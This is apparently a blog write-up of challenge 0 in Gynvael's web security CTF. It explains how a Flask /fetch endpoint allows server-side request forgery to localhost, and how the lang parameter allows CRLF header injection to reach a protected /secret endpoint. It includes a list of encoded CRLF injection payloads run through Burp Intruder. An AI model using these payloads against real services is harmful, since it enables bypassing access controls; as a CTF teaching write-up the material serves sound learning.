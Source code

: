 ```yaml
---
layout: post
title: Gynvael's web security challenge - part 0.
subtitle: Quick hacking at the weekend.
gh-repo: daattali/beautiful-jekyll
tags: [ctf, hacking, challenges]
comments: true
---
```


Over the weekend I have decided to play with Gynvael's web security challenges. The post presents the write-up of challenge 0.
The challenge is located under the following URL:
http://challenges.gynvael.stream:5000/

The challenge is simple FLASK application running as the Werkzaug - flask development web server.
After the quick code analysis, we see that to complete the challenge we must get the response from the /secret endpoint

```
@app.route('/secret')
def secret():
  if request.remote_addr != "127.0.0.1":
    return "Access denied!"

  if request.headers.get("X-Secret", "") != "YEAH":
    return "Nope."

  return f"GOOD WORK! Flag is {FLAG}"
```

To get the flag we would have to bypass to conditional checks, the first requirement is that the request must come from the localhost. The second requirement is that the HTTP request must have the X-Secret HTTP header with the value of YEAH.

So, the get the flag, we would have to exploit the Server Side Request Forgery on the same server, to be able to send an HTTP request to the loopback interface. Then, we would have to find the HTTP Header Injection sometimes called CRLF injection to be able to send the custom X-Secret HTTP header.

Luckly for us the web server exposes other endpoint /fetch:
```
@app.route('/fetch', methods=["POST"])
def fetch():
  url = request.form.get("url", "")
  lang = request.form.get("lang", "en-US")

  if not url:
    return "URL must be provided"

  data = fetch_url(url, lang)
  if data is None:
    return "Failed."

  return Response(data, mimetype="text/plain;charset=utf-8")
```

Analyzing the parameters that the endpoint expects - url and lang, we can say that the endpoint perform SSRF for us by calling the fetch_url(url,lang) function. Interesting part in the fetch_url(url,lang) function is the part describing how the HTTP request is built:

```
  req = '\r\n'.join([
    f"GET {o.path} HTTP/1.1",
    f"Host: {o.netloc}",
    f"Connection: close",
    f"Accept-Language: {lang}",
    "",
    ""
  ])
```

As we can see it is simple string concatenation, so we would be able to provide the end of line characters and inject arbitrary HTTP Header to the request.

Let's go the exploitation, I would use the Burp Suite Community Edition for that. We first try to send the request to http://localhost:5000/secret without changing the language parameter.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_1.png)


With that request, we would hit the second condition as the HTTP Header X-Secret is not set. Then, I would use Intruder to try different payloads for injecting the CRLF.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_2.png)

I have prepared the following list of payloads to try which has some of the common encoded characters to do CRLF injection.
```
%0a%0aX-Secret:%20YEAH
%0aX-Secret:%20YEAH
%0d%0aX-Secret:%20YEAH
%0dX-Secret:%20YEAH
%23%0aX-Secret:%20YEAH
%23%0d%0aX-Secret:%20YEAH
%23%0dX-Secret:%20YEAH
%25%30%61X-Secret:%20YEAH
%25%30aX-Secret:%20YEAH
%250aX-Secret:%20YEAH
%25250aX-Secret:%20YEAH
%2e%2e%2f%0d%0aX-Secret:%20YEAH
%2f%2e%2e%0d%0aX-Secret:%20YEAH
%2F..%0d%0aX-Secret:%20YEAH
%3f%0d%0aX-Secret:%20YEAH
%3f%0dX-Secret:%20YEAH
%u000aX-Secret:%20YEAH
```

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_3.png)

Additionally, we go the Options tab and set the Grep-Match to "GOOD WORK!" as this shows up when the flag is returned.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_4.png)

Then, we click "Start Attack", and see the results.

![gyn_0](https://github.com/niebardzo/niebardzo.github.io/raw/master/img/2020-05-24-gyn0_5.png)

As we can see few of the Intruder's requests returned the flag. We can now view the response with the flag.
